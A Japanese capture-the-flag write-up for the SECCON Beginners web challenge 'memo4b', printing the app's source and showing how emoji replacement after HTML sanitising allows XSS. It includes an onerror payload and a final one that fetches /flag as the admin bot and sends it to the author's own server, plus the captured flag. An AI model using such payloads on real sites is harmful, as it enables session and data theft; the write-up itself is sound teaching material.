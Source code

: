 # memo4b:web:308pts
Emojiが使えるメモアプリケーションを作りました:smile:  
メモアプリ: [http://memo4b.challenges.beginners.seccon.jp:50000](http://memo4b.challenges.beginners.seccon.jp:50000)  
Admin Bot: [http://memo4b.challenges.beginners.seccon.jp:50001](http://memo4b.challenges.beginners.seccon.jp:50001)  
Admin Bot (mirror): [http://memo4b.challenges.beginners.seccon.jp:50002](http://memo4b.challenges.beginners.seccon.jp:50002)  
Admin Bot (mirror2): [http://memo4b.challenges.beginners.seccon.jp:50003](http://memo4b.challenges.beginners.seccon.jp:50003)  

[memo4b.zip](memo4b.zip)  

# Solution
メモアプリのURLとAdmin BotのURL、ソースコード一式が渡される。  
メモアプリにアクセスするとタイトルと内容を指定できるようだ。  
![site.png](site/site.png)  
作成したメモのURLは`http://memo4b.challenges.beginners.seccon.jp:50000/post/49a0589f`となっており、パス`49a0589f`の部分がIDのようだ。  
ソースを見ると以下の通りであった。  
```js
import express from 'express';
import sanitizeHtml from 'sanitize-html';
import { marked } from 'marked';
import parse from 'url-parse';
import fs from 'fs';
import path from 'path';
import crypto from 'crypto';

const app   = express();
const posts = new Map();
const FLAG  = fs.readFileSync('./flag.txt','utf8').trim();

const emojiMap = {
  'smile': '😊',
  'heart': '❤️',
  'fire': '🔥',
  'thumbsup': '👍',
  'thumbsdown': '👎',
  'check': '✅',
  'x': '❌',
  'party': '🎉',
  'eyes': '👀',
  'thinking': '🤔',
  'cry': '😢',
  'laugh': '😂'
};

app.use(express.urlencoded({ extended: false }));
app.use(express.json());

function renderTemplate(templatePath, data) {
  let template = fs.readFileSync(templatePath, 'utf8');
  
  for (const [key, value] of Object.entries(data)) {
    const placeholder = `{{${key.toUpperCase()}}}`;
    template = template.replace(new RegExp(placeholder, 'g'), value);
  }
  
  return template;
}

app.get('/flag', (req,res)=> {
  const clientIP = req.socket.remoteAddress;
  const isLocalhost = clientIP === '127.0.0.1' ||
                     clientIP?.startsWith('172.20.');
  
  if (!isLocalhost) {
    return res.status(403).json({ error: 'Access denied.' });
  }
  
  if (req.headers.cookie !== 'user=admin') {
    return res.status(403).json({ error: 'Admin access required.' });
  }
  
  res.type('text/plain').send(FLAG);
});

app.get('/', (_req, res) => {
  const html = renderTemplate('./templates/index.html', {});
  res.send(html);
});

app.post('/', (req,res)=>{
  const { title='', md='' } = req.body;
  
  marked.setOptions({
    breaks: true,
    gfm: false
  });
  
  let html = marked.parse(md);

  html = sanitizeHtml(html, {
    allowedTags: ['h1', 'h2', 'h3', 'h4', 'h5', 'h6', 'p', 'a', 'ul', 'ol', 'li', 'blockquote', 'code', 'pre', 'em', 'strong', 'br'],
    allowedAttributes: {
      'a': ['href']
    }
  });

  html = processEmojis(html);

  const id = crypto.randomUUID().slice(0,8);
  posts.set(id,{ 
    title: title.replace(/[<>]/g, ''), 
    html: html 
  });
  res.redirect(`/post/${id}`);
});

app.get('/post/:id', (req,res)=>{
  const post = posts.get(req.params.id);
  if(!post) return res.sendStatus(404);
  
  const html = renderTemplate('./templates/post.html', {
    title: post.title,
    content: post.html
  });
  res.send(html);
});

app.use('/static', express.static(path.join(process.cwd(),'static')));

app.get('/api/posts', (req, res) => {
  const postList = Array.from(posts.entries()).map(([id, post]) => ({
    id,
    title: post.title,
    url: `/post/${id}`
  }));
  res.json(postList);
});

function processEmojis(html) {
  return html.replace(/:((?:https?:\/\/[^:]+|[^:]+)):/g, (match, name) => {
    if (emojiMap[name]) {
      return emojiMap[name];
    }
    
    if (name.match(/^https?:\/\//)) {
      try {
        const urlObj = new URL(name);
        const baseUrl = urlObj.origin + urlObj.pathname;
        const parsed = parse(name);
        const fragment = parsed.hash || '';
        const imgUrl = baseUrl + fragment;
        
        return `<img src="${imgUrl}" style="height:1.2em;vertical-align:middle;">`;
      } catch (e) {
        return match;
      }
    }
    
    return match;
  });
}

app.listen(50000, '0.0.0.0', ()=>console.log('Server running on http://localhost:50000'));
```
`/flag`でフラグが表示されるようだが、IPが内部でなければならないのでAdmin Botでなければ表示できない。  
XSSでこのエンドポイントをGETしろということらしい。  
メモアプリではmarkdownを`marked.parse`して、さらに許可タグを使った`sanitizeHtml`を行っているので自明XSSは難しそうだ。  
ここで、その後に行われている`processEmojis`に注目する。  
`:smile:`や`:https://example.com/satoki.png:`のような文字列を絵文字やimgタグに変換する処理を行っている。  
サニタイズの後での文字置換はXSSになりやすい。  
試しに`:https://satoki#" onerror=alert(1)//.png:`のようなペイロードを投げると、`<img src="https://satoki/#" onerror="alert(1)//.png&quot;" style="height:1.2em;vertical-align:middle;">`のようなimgタグとなりalertした。  
あとは、以下のようにXSSで`/flag`をfecthして、外部(自身のサーバ)へ持ち出すメモを作る。  
先頭のURLを`.internal`にすることで、Botの読み込み時間を短縮しタイムアウトを防いでいる。  
```
:https://satoki.internal#" onerror=fetch('/flag').then(a=>a.text()).then(b=>fetch('//s4t.pw?'+b))//.png:
```
これをAdmin Botへ投げればよい。  
```
GET
/?ctf4b{xss_1s_fun_and_b3_c4r3fu1_w1th_url_p4r5e}
```
クエリにflagの付いたリクエストが自身のサーバへ到達した。  

## ctf4b{xss_1s_fun_and_b3_c4r3fu1_w1th_url_p4r5e}